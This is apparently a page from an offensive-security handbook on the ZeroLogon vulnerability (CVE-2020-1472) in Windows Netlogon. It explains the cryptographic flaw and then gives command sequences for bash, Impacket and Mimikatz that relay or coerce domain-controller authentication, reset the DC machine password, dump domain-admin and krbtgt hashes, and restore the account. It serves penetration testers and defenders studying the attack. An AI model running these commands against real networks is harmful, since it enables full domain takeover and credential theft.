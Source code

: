 ```yaml
---
description: CVE-2020-1472
authors: ShutdownRepo, sckdev
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario (the "[password change](zerologon.md#password-change-disruptive)" one).

* Concept #1: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* Concept #2: authentication through MS-NRPC uses a static and null IV (only `\x00` bytes, hence partly validating concept #1).
* Concept #3: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* Concept #4: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts #1 and #2 (by using a plaintext filled with `\x00` bytes and by doing enough attempts).
* Concept #5: the `NetrServerPasswordSet2` call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts #1 and #2.
* Concept #6: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* Concept #7: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](../ntlm/relay.md) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change ( :warning: disruptive)

> [!CAUTION]
> This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is not advised.

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

::: tabs

=== UNIX-like

The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```


=== Windows

The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) using [`lsadump::zerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/zerologon) to scan and exploit it, then obtain the krbtgt with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) and reset the DC account with [`lsadump::postzerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/postzerologon) or use [`lsadump::changentlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/changentlm).

```powershell
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```

:::


## Resources

[https://www.secura.com/blog/zero-logon](https://www.secura.com/blog/zero-logon)

[https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
